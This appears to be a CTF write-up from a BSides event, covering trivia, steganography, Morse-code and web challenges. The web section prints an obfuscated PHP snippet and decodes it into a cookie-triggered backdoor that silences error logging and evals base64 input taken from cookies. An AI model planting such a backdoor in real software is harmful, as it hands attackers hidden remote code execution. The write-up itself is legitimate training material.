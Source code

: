 # General Information : 130 Point in 4 Challenge
- Rocker : 20 Point

I attack was published about me in Defcon Conference in 2011 I gain access to your phone during the charging process
to execute attack you need a cable that supports power and data connection together
The is Flag `juice jacking`

- Search with police  : 30 Point

I'm a new tool developed by a company who unlocked ios phone in a terrorist attack in San Bernardino, California.
This tool developed to a physical analyzer for smartphones like android and ios
The is Flag `UFED`

- Vegetables : 30 Point

I'm an operating system based on Linux designed to encrypt your data using onion routing and works through USB only
The is Flag `Tails`


- WhoAmi : 50 Point

I'm Jack and I have a penetration testing process for Automated Teller Machine and I don't have any money to buy rubber ducky or any advanced kits.
I've seen on the internet that I can do this tool with myself with some tools based on open-source hardware, I need something can simulate rubber ducky to inject code and enable PowerShell command or execute a command on Windows...
What's the name of this piece amid the family names?
The is Flag `leonardo`

# Web Challenge : d3c0d3 m3 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/c99.zip) file Which Contain a php code
```
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
```
- first the variable `$iuq` containe a php built in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be

```
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9
```
- decode it with base64 then the output will be
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
- you will see that variable `$a` is `fl` and variable `$k` is `ag{hidden_in_php}` so your flag is `flag{hidden_in_php}`

# Steganography | Zoom Eye 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/invokeme.zip) file Which Contain a image They Give us The Password of zip file `squnity`
- I'm Extract The zip file and found that the image is 13 Mbyte , So There a something hidden in the photo
- I'm used steghide in linux `steghide extract -sf rockme.jpg` , you can install it `apt install steghide`
- steghide requierd a password !!! , I see The Photo and zoom in When I found This Words With Grey Color :D
![Password](https://github.com/X-Vector/CTF/blob/master/Bsides/stage2.png?raw=true)
- I try to set this words `l3757ryh4rd3r` as password and the reinvoke.txt file is output
- The File Contain This Character and string
```
{@C6> xADF> :D D:>A=J 5F>>J E6IE @7 E96 AC:?E:?8 2?5 EJA6D6EE:?8 :?5FDECJ] {@C6> xADF> 92D 366? E96 :?5FDECJVD DE2?52C5 5F>>J E6IE 6G6C D:?46 E96 `d__D[ H96? 2? F?<?@H? AC:?E6C E@@< 2 82==6J @7 EJA6 2?5 D4C2>3=65 :E E@ >2<6 2 EJA6 DA64:>6? 3@@<] xE 92D DFCG:G65 ?@E @?=J 7:G6 46?EFC:6D[ 3FE 2=D@ E96 =62A :?E@ 6=64EC@?:4 EJA6D6EE:?8[ C6>2:?:?8 6DD6?E:2==J F?492?865] xE H2D A@AF=2C:D65 :? E96 `he_D H:E9 E96 C6=62D6 @7 {6EC2D6E D966ED 4@?E2:?:?8 {@C6> xADF> A2DD286D[ 2?5 >@C6 C646?E=J H:E9 56D<E@A AF3=:D9:?8 D@7EH2C6 =:<6 p=5FD !286|2<6C :?4=F5:?8 G6CD:@?D @7 {@C6> xADF>]
7=28L5bGb=_Ab507_C0fc=b?fdN
```
- I Think and search in google When I found it's rot47
- I go to [decode.fr](https://www.dcode.fr/rot-47-cipher) and decode it , The Output is
```
Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
flag{d3v3l0p3d_f0r_74l3n75}flag{d3v3l0p3d_f0r_74l3n75}
```
- Then The Flag is `flag{d3v3l0p3d_f0r_74l3n75}`











# Crypto Challenge : abusing 50 Point
- The Challenge is a [mp3](https://github.com/X-Vector/CTF/blob/master/Bsides/abusing.mp3) file Which This Sound Like Morse code
- Go to this [website](https://morsecode.scphillips.com/labs/audio-decoder-adaptive/) then upload mp3 file and you get this result
![Morse code](https://github.com/X-Vector/CTF/blob/master/Bsides/morse.png?raw=true)
- We Play in This Words `ETTE L A G I N M C O D E W E T R U S T` To Get This Result `FLAGINMCODEWETRUST` Then We Submit and we get is wrong Then we add `{}_` to words to be `FLAG{IN_MCODE_TRUST}` and Flag is Correct
